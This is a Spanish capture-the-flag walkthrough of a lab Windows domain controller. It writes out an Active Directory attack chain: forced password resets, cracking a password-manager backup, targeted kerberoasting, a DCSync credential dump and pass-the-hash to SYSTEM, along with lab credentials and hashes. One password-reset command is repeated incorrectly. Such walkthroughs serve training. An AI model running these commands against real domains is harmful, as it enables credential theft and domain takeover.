

Este escenario parte de una situación de brecha asumida, por lo que se nos proporcionan credenciales válidas desde el inicio.

olivia:ichliebedich

Empezamos realizando un escaneo de puertos abiertos en la máquina objetivo.

``sudo nmap 10.10.11.42 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``


Una vez conocemos el listado de puertos abiertos, realizamos un segundo escaneo sobre estos puertos para saber qué servicios y versiones están corriendo.

``nmap 10.10.11.42 -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,54343,57656,57667,57672,57675,57694 -oN target``


Empezamos a ver cosas interesantes y típicas de un DC: Kerberos, LDAP, SMB, DNS (no siempre), junto con un dominio y una posible entrada a la máquina por winrm.

Para seguir enumerando información de la máquina, vamos a utilizar netexec.

``netexec smb 10.10.11.42``


Confirmamos dominio -> administrator.htb

Nombre de la máquina ->  DC

Windows -> Server 2022

Podemos añadir esta información a nuestro /etc/hosts


Como tenemos credenciales válidas a nivel de dominio, vamos a enumerar el resto de usuarios a través de RPC:

``rpcclient -U 'olivia%ichliebedich' 10.10.11.42' ``

-> enumdomusers


Vamos a guardarnos el output (rpcusers.txt) para posteriormente hacer un tratamiento a los datos y quedarnos con los nombres de usuario (el contenido del primer corchete).

``cat rpcusers.txt | cut -d '[' -f2 | cut -d ']' -f1 > users.txt; cat users.txt``


Vamos a seguir enumerando. Como tiene servidor DNS, podemos hacer uso de la herramienta bloodhound-python para enumerar el dominio proporcionando credenciales desde fuera del mismo sin necesidad de compartir SharpHound.

- Levantamos neo4j

``sudo neo4j start``


- Levantamos bloodhound

``bloodhound --no-sandbox &>/dev/null & disown``

- Introducimos nuestras credenciales de neo4j.

- Enumeramos el dominio con BloodHound-Python:

``bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -c all -ns 10.10.11.42``


- Una vez hemos recolectado la información y la tenemos en los archivos .json generados, los subimos a su interfaz gráfica:


- Marcamos como owned al usuario olivia porque tenemos sus credenciales.

Empezamos a darle uso a BloodHound.

Por ejemplo, si observamos la información del usuario Olivia: tiene GenericAll sobre el usuario Michael.


Entre otras cosas, lo que podemos hacer es cambiar su contraseña.

``net rpc password michael -U 'olivia' -S 10.10.11.42``

-> Introducimos nueva contraseña para michael: test123!

-> Introducimos la contraseña de olivia (ichliebedich)


- Comprobamos con netexec que, efectivamente, se ha cambiado la contraseña del usuario michael:

``netexec smb 10.10.11.42 -u 'michael' -p 'test123!'``


Estupendo, hemos cambiado la contraseña del usuario Michael. Marcamos en BloodHound al usuario Michael como owned.


¿Podemos conectarnos con evil-winrm? Vamos a comprobar si el usuario michael forma parte del grupo RemoteManagementUser:


Estupendo, podemos entrar también en el sistema como el usuario michael.

Si seguimos enumerando a través de BloodHound con el usuario michael, vemos que podemos forzar el cambio de contraseña de Benjamin:


Realizamos lo mismo que hicimos anteriormente para cambiar al contraseña de Michael, pero en este caso para Benjamin.

``net rpc password michael -U 'olivia' -S 10.10.11.42``

-> Introducimos nueva contraseña para benjamin: test123!

-> Introducimos la contraseña de michael (test123!)


Validamos las credenciales para corroborar que hemos modificado la contraseña de benjamin:

``netexec smb 10.10.11.42 -u 'benjamin' -p 'test123!'``


Comprobamos con netexec si podemos utilizar evil-winrm con Benjamin, pero no nos aparece [+] Pwn3d!, por lo que no puede conectarse por winrm.

Credenciales hasta ahora:
- olivia : ichliebedich
- michael : test123!
- benjamin : test123!

Sin embargo, existen otros servicios para los que podemos utilizar las credenciales que tenemos hasta ahora. Por ejemplo, con el usuario benjamin podemos loguearnos por ftp:


``ftp 10.10.11.42``


Dentro del servidor ftp vemos un archivo llamado Backup.psafe3. Nos lo traemos a nuestra máquina:

``get Backup.psafe3``


Si hacemos un file del archivo para ver cómo lo identifica a través de los magic numbers:

``file Backup.psafe3``


Password Safe v3 database. Parece un backup de una base de datos usuarios y contraseñas, pero vamos a indagar un poco.

Según google:

``Los archivos PSAFE3 pertenecen principalmente a Password Safe. Password Safe le permite crear de forma segura y sencilla una lista segura y encriptada de nombres de usuario/contraseñas. Con Password Safe todo lo que tiene que hacer es crear y recordar una única contraseña maestra de su elección para desbloquear y acceder a toda su lista de nombres de usuario/contraseñas.``

Confirmamos que es un gestor de contraseñas. Necesitamos la contraseña maestra para acceder a los datos que tiene almacenados, lo que nos debería permitir obtener nuevas credenciales.

Si investigamos un poco, vemos que hashcat tiene un código interno para intentar crackear este tipo de archivos:

``hashcat --help | grep -i 'password safe'``


Vale, el código interno para PasswordSafe v3 es 5200.

Una vez sabemos el código interno de hashcat, lanzamos hashcat con rockyou como diccionario:

``hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockou.txt --force``


Otra opción habría sido pasarle el archivo Backup.psafe3 a pwsafe2john (similar a zip2john o ssh2john), lo que generaría un archivo que john sí puede intentar crackear.

Saca tekieromucho como contraseña maestra. Esto podría cuadrarnos a nivel de CTF ya que la contraseña de Olivia es "ichliebedich", que en alemán significa exactamente "te quiero mucho".

Si miramos un poco la documentación de pwsafe:

- https://pwsafe.org/help/pwsafeEN/html/cli.html

Tenemos que hacer uso de  la herramienta pwsafe. Y si no la tenemos: ``sudo apt install pwsafe``

Una vez tenemos la herramienta:

``pwsafe Backup.psafe3``

Esto nos abre de forma gráfica una especie de panel de autenticación que nos pide la contraseña maestra / combinación segura:


Probamos con tekieromucho.

Funciona:


Haciendo doble click sobre cualquiera de ellos nos copiará su contraseña. Se obtiene:

- alexander : UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

- emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb

- emma : WwANQWnmJnGV07WQN8bMS7FMAbjNur

Añadimos estas contraseña a pass.txt (junto con las dos que teníamos antes, la contraseña inicial de olivia y la contraseña que hemos cambiado anteriormente a los dos usuarios):


Utilizamos netexec para validar las contraseñas del gestor de contraseñas. Importante el parámetro ``--continue-on-sucess`` para que no se detenga con el primer acierto.

``netexec smb 10.10.11.42 -u users.txt -p pass.txt --continue-on-success``

Nos confirma cosas que ya sabíamos:


Pero también nos confirma algo nuevo:


emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb, son credenciales válidas.

Hasta ahora tenemos:


 
A su vez, vamos a ver si emily puede hacer uso de winrm porque forme parte del grupo Remote Management Users:

``netexec winrm 10.10.11.42 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'``


Tenemos Pwn3d!, por lo que podemos conectarnos con evil-winrm con las credenciales de emily.

``evil-winrm -i 10.10.11.42 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'``

En C:\Users\emily\Desktop encontramos la flag de usuario.


# PRIVESC

Vamos a bloodhound y marcamos emily como usuario owned y vamos a ver qué podemos hacer desde ahí:




Resulta que el usuario Emily tiene GenericWrite sobre Ethan. El siguiente recurso es bastante bueno para aprender sobre ello:

https://www.hackingarticles.in/abusing-ad-dacl-genericwrite/

Lo que se va a hacer es añadir un SPN (ServicePrincipalName) a la cuenta de usuario objetivo. Desde el momento que la cuenta tiene un SPN asociado, es vulnerable a kerberoasting. Esta técnica se conoce como "targeted kerberoasting".

Si lanzamos directamente targetedKerberoast.py da problema por desincronización de reloj.

-> Primero tenemos que sincronizar el reloj (que confieso que ha costado más que en otras ocasiones):

```
sudo timedatectl set-ntp off
sudo rdate -n IPobjetivo
```


Una vez está sincronizado (desde sudo), lo corremos:

``sudo python3 targetedKerberoast.py -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'``

Curiosamente con --dc-ip 10.10.11.42 daba error, pero sin ello no.


Estupendo, nos saca el TGS del usuario ethan, y por tanto, podemos intentar crackearlo con hashcat para obtener sus credenciales. Nos lo copiamos al archivo ethankerberoasthash.

A su vez, podemos volver a setear en on:

``sudo timedatectl set-ntp on``

Le pasamos el hash a hashcat con rockyou como diccionario:

``hashcat -m 13100 ethankerberoasthash /usr/share/wordlists/rockyou.txt --force``


ethan : limpbizkit

Validamos credenciales de ethan:

``netexec smb 10.10.11.42 -u ethan -p 'limpbizkit'``


Genial, tenemos [+], por lo que son credenciales válidas.

Marcamos como owned a Ethan en el BloodHound. Y si observamos qué cosas podemos hacer con este usuario, vemos:


Ojo, podemos hacer DCSync con Ethan, por lo que podemos volcar todos los hashes LM:NTLM de los usuarios del dominio.

``impacket-secretsdump DC=administrator,DC=htb/'ethan':'limpbizkit'@'10.10.11.42'``


Cogemos el hash NTLM de Administrator y nos lo guardamos (``3dc553ce4b9fd20bd016e098d2d2fd2e``). Podríamos intentar crackearlo, o podemos hacer directamente pass the hash.

Vamos a validar este hash NTLM para el usuario Administrador.

``netexec smb 10.10.11.42 -u Administrator -H ':3dc553ce4b9fd20bd016e098d2d2fd2e'``


Tenemos Pwn3d!, y por tanto, podemos hacer uso de psexec o wmiexec.

``impacket-psexec administrator@10.10.11.42 -hashes ':3dc553ce4b9fd20bd016e098d2d2fd2e'``


Estamos dentro de la máquina objetivo como NtAuthority\system.

En C:\Users\Administrator\Desktop recogemos la flag de administrador.


